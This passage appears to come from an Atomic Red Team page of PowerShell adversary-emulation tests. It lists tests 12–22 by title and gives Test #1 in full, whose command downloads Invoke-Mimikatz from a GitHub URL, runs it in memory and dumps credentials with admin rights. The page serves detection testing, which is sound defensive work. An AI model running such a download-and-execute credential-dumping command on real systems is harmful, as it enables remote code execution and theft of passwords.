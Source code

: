 - [Atomic Test #12 - PowerShell Downgrade Attack](#atomic-test-12---powershell-downgrade-attack)

- [Atomic Test #13 - NTFS Alternate Data Stream Access](#atomic-test-13---ntfs-alternate-data-stream-access)

- [Atomic Test #14 - PowerShell Session Creation and Use](#atomic-test-14---powershell-session-creation-and-use)

- [Atomic Test #15 - ATHPowerShellCommandLineParameter -Command parameter variations](#atomic-test-15---athpowershellcommandlineparameter--command-parameter-variations)

- [Atomic Test #16 - ATHPowerShellCommandLineParameter -Command parameter variations with encoded arguments](#atomic-test-16---athpowershellcommandlineparameter--command-parameter-variations-with-encoded-arguments)

- [Atomic Test #17 - ATHPowerShellCommandLineParameter -EncodedCommand parameter variations](#atomic-test-17---athpowershellcommandlineparameter--encodedcommand-parameter-variations)

- [Atomic Test #18 - ATHPowerShellCommandLineParameter -EncodedCommand parameter variations with encoded arguments](#atomic-test-18---athpowershellcommandlineparameter--encodedcommand-parameter-variations-with-encoded-arguments)

- [Atomic Test #19 - PowerShell Command Execution](#atomic-test-19---powershell-command-execution)

- [Atomic Test #20 - PowerShell Invoke Known Malicious Cmdlets](#atomic-test-20---powershell-invoke-known-malicious-cmdlets)

- [Atomic Test #21 - PowerUp Invoke-AllChecks](#atomic-test-21---powerup-invoke-allchecks)

- [Atomic Test #22 - Abuse Nslookup with DNS Records](#atomic-test-22---abuse-nslookup-with-dns-records)


<br/>

## Atomic Test #1 - Mimikatz
Download Mimikatz and dump credentials. Upon execution, mimikatz dump details and password hashes will be displayed.

**Supported Platforms:** Windows


**auto_generated_guid:** f3132740-55bc-48c4-bcc0-758a459cd027





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| mimurl | Mimikatz url | url | https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/f650520c4b1004daf8b3ec08007a0b945b91253a/Exfiltration/Invoke-Mimikatz.ps1|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
```
